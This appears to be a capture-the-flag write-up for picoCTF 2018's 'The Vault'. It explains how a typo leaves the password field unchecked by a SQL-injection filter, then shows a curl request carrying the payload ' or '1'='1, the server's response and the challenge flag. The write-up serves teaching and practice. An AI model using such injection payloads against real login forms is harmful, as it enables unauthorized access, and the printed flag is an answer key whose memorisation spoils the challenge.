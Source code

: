 # The Vault
## Question
>There is a website running at `http://2018shell.picoctf.com:56537` ([link](http://2018shell.picoctf.com:56537/)). Try to see if you can login! 

## Hint
>NA

# Solution
The [login.php source code](files/login.txt) is available as a link at the bottom of the authentication page.
It reveals several things:
* the database is SQLite3
* connection details and probably the `$FLAG` variable are stored in `config.php`
* there is a hidden variable named `debug` that you can use to show the SQL request which will be executed
* user inputs are sanitized via a string check (regular expression) to prevent SQL injection
* if the SQL request returns a result, the flag is displayed, else, `Login failed.` will appear

That's a lot of information. Let's analyze the SQL injection protection.

Carefully analyzing the PHP code will reveal a typo the developer has made. Notice that the `preg_match` is done twice for the `$username`, even for the `$password_match`, hence leaving the `password` input unchecked.
```php
  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
```

Let's exploit this vulnerability:
~~~~
$ curl -d "username=admin&password=' or '1'='1&debug=1" -X POST http://2018shell.picoctf.com:56537/login.php
<pre>username: admin
password: ' or '1'='1
SQL query: SELECT 1 FROM users WHERE name='admin' AND password='' or '1'='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}</p>
~~~~

# Flag
`picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}`
